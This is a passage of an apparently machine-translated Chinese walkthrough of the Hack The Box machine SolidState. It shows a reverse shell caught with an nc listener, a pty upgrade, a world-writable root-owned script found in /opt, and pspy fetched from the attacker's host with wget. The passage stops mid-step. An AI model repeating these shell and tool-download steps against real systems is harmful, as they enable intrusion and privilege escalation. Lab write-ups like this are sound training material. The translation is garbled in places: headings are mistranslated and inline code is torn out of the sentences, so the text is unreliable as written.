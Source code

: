在我的听众那里，我得到了一个外壳：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )              
    Ncat: Listening on :::443                                 
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.          
    Ncat: Connection from 10.10.10.51:49590.
    python -c 'import pty;pty.spawn("bash")'
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
    

我会考虑改善《超越根》中明迪的体验。

## 枢密院：敏迪 –>根

### 列举

在查看文件系统时，我通常会检查 和 ，期望在大多数 HTB 计算机上发现两者都是空的。因此，找到一个世界可写的根拥有的Python脚本引起了我的注意：`/opt``/srv``/opt`

    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls -l /opt/
    total 8
    drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
    -rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
    

脚本本身不会执行任何太有趣的事情：

    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
    

### 啪啪

给定该文件，我想看看它是否正在运行，所以我将上传[PSpy](https://github.com/DominicBreuker/pspy)。我将在我的Pspy目录中启动一个Python Web服务器，然后抓取文件（抓取32位版本，因为这台机器是32位）：`wget`

    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget 10.10.14.47/pspy32
    --2020-04-29 22:39:06--  http://10.10.14.47/pspy32
    Connecting to 10.10.14.47:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2656352 (2.5M) [application/octet-stream]
    Saving to: ‘pspy32’
    
    pspy32                        100%[=================================================>]   2.53M  9.42MB/s    in 0.3s    
    
    2020-04-29 22:39:07 (9.42 MB/s) - ‘pspy32’ saved [2656352/2656352]
    

我在 Web 服务器上看到该请求：
